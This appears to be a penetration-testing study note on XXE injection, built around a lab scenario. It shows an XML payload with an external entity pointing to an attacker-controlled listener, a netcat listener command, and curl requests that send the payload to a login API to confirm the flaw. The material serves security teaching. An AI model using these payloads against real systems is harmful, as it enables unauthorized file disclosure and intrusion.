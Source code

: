# XML External Entity (XXE) Injection
Refer to [[XXE Prevention]] section for more in-depth techniques.

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions.

XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down.
## Example Scenario
Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`.

By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Lets try logging in and capturing our login request with Burp:
![HTTP POST request to /api/login with XML payload containing email and password.](https://academy.hackthebox.com/storage/modules/160/11.png)
- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE (DTD) to this request.
#### What is a DOCTYPE (DTD)?
Check [[XML Basics]]

Defines the structure and the legal elements and attributes of an XML document. 

Our current payload is:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```
- We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`.
- We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.
```shell
nc -nlvp 4444
```

Now let us make an API call containing the payload we crafted above.
```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
```

If we notice no connection being made to our listener, this is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.
```shell
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```

After the call to the API, you will notice a connection being made to the netcat listener.
- This shows the API is vulnerable to XXE Injection.
